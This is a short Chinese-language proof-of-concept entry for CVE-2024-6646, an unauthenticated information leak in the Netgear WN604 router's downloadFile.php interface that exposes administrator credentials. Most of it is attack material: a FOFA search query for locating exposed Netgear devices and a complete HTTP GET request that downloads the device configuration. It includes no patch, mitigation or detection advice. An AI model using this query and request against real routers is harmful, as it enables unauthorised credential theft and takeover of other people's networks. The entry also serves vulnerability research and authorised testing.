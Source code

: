 # Netgear-WN604接口downloadFile.php信息泄露漏洞(CVE-2024-6646)

Netgear WN604 downloadFile.php接口处存在信息泄露漏洞，文件身份验证的远程攻击者可以利用此漏洞获取无线路由器的管理员账号密码信息，导致路由器后台被控，攻击者可对无线网络发起破坏或进一步威胁。

## fofa

```yaml
title=="Netgear"
```

## poc

```yaml
GET /downloadFile.php?file=config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407162316664.png)